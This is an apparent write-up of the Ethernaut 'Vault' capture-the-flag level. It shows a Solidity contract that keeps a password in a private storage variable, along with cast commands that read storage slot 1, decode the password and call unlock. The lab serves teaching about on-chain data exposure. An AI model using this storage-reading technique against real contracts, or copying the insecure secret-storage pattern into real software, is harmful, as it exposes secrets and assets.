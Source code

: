 # Vault Level Outline

**Difficulty : 3/10**

Unlock the vault to pass the level!

```solidity  
// SPDX-License-Identifier: MIT
pragma solidity ^0.6.0;

contract Vault {
  bool public locked;
  bytes32 private password;

  constructor(bytes32 _password) public {
    locked = true;
    password = _password;
  }

  function unlock(bytes32 _password) public {
    if (password == _password) {
      locked = false;
    }
  }
}
```

[Link to level on Ethernaut](https://ethernaut.openzeppelin.com/level/0xf94b476063B6379A3c8b6C836efB8B3e10eDe188)

## Solution

Nothing on the blockchain is private, not even private variables. We can probe the memory slot from the smart contract to find the value of password.

- Storage slot 0 = locked

- Storage slot 1 = password

So to find the value of password we inspect storage slot 1.

### Walkthrough
##### 1. inspect the first storage slot of the vault 
```console
cast storage $LEVEL_ADDRESS 1
```
output 
```console
0x412076657279207374726f6e67207365637265742070617373776f7264203a29
```

##### 2. for fun lets see the hex data in utf8 format
```console
cast --to-ascii 0x412076657279207374726f6e67207365637265742070617373776f7264203a29
```
output 
```console
A very strong secret password :)
```

##### 3. call the "unlock(bytes32)" function with the extracted password
```console
cast send $LEVEL_ADDRESS "unlock(bytes32)" 0x412076657279207374726f6e67207365637265742070617373776f7264203a29 --private-key $PRIVATE_KEY 
```
## Further Reading
To ensure that data is private, it needs to be encrypted before being put onto the blockchain. In this scenario, the decryption key should never be sent on-chain, as it will then be visible to anyone who looks for it. [zk-SNARKs](https://blog.ethereum.org/2016/12/05/zksnarks-in-a-nutshell/) provide a way to determine whether someone possesses a secret parameter, without ever having to reveal the parameter.
